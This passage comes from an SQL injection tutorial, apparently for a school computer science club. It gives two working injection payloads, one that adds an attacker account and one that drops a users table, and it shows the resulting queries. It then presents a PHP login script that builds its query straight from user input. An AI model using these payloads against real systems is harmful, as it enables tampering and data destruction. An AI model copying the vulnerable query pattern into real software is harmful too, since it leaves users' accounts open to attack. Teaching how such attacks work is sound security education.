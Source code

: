 ```
1) Adding something to the table
'; INSERT INTO userinfo ('Username', 'Password', 'Email') VALUES ('thehacker', '2kvLXCR', 'ugot@hacked.com'); #

2) Deleting everything
'; DROP TABLE userinfo; #
```

The resultant queries:

```sql
# 1)
SELECT Email FROM userinfo WHERE Username=''; INSERT INTO userinfo ('Username', 'Password', 'Email') VALUES ('thehacker', '2kvLXCR', 'ugot@hacked.com'); #'

# 2)
SELECT Email FROM userinfo WHERE Username=''; DROP TABLE userinfo; #'
```

You can see how dangerous and malicious this is. Please DO NOT try this on actual websites. However, you do have full permission to engage CAMS CSC servers in any way you like.

### Logging In

Many websites employ some form of a login system. Most of those login systems utilize SQL. Let's look at an example of a simple login system. I have highlighted the flaws.

```php
<?php

//Create a new database
$database = new mysqli( 'localhost', 'DB_USER', 'DB_PASS', 'tutorial_2' );

//For debugging purposes in case the connection failed
if( !$database )
{
	die( 'MySQL: Wrong credentials' );
}

//Set the character set
$database->set_charset("utf8");

//Get the posted username and password
$user = $_POST['username'];
$pass = $_POST['password'];

//Execute a query
$result = $database->query
(
	"SELECT * FROM userinfo WHERE Username='$user' AND Password='$pass'"
);

//Checks whether the query was successful and whether there is actually data (at least 1 row of matching data)
if( !$result || mysqli_num_rows( $result ) == 0 )
{
	die( 'Error' );
}
else
{
	//Code to perform action when user successfully logs in.
}

?>
```
